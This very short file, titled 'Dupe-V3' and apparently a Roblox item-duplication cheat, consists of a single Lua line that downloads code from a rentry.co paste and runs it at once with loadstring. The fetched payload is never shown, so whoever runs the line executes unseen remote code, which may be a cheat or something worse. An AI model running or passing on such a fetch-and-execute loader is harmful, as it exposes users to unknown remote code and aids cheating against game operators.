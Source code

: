 # Dupe-V3





loadstring(game:HttpGet('https://rentry.co/pz3gvf8r/raw',true))()                              
